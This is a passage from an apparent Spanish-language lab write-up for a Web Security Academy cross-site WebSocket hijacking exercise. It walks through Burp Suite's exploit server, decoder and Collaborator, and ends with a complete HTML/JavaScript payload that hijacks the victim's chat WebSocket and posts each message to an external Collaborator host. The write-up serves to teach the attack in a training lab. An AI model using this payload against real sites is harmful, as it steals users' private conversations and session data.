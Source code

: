 Debemos `pulsar` en `Deliver exploit to victim` y después de eso en `Access log`, veremos que hemos `recibido` una `petición` con un `mensaje` en `base64`

![](/assets/img/CSRF-Lab-9/image_15.png)

Para el ver el mensaje nos dirigimos al `Decoder` de `Burpsuite` y `decodeamos` el `base64`

![](/assets/img/CSRF-Lab-9/image_16.png)

Esto también lo podemos hacer usando `Burpsuite Collaborator`, para ello lo primero en irnos a `Collaborator` y pulsar en `Copy to clipboard`

![](/assets/img/CSRF-Lab-9/image_17.png)

Una vez hecho esto `creamos` este `payload` y lo `pegamos` en el `Exploit server`

```
<html>
    <body>
        <script>
            var webSocket = new WebSocket('wss://0ae6009604b0af07829c985600e500c6.web-security-academy.net/chat');

            webSocket.onopen = function() {
                webSocket.send("READY");
            };

            webSocket.onmessage = function(event) {
                fetch('https://ridae4ksfhiwltligy2c4ohnze56twhl.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
            };
        </script>
    </body>
</html>
```

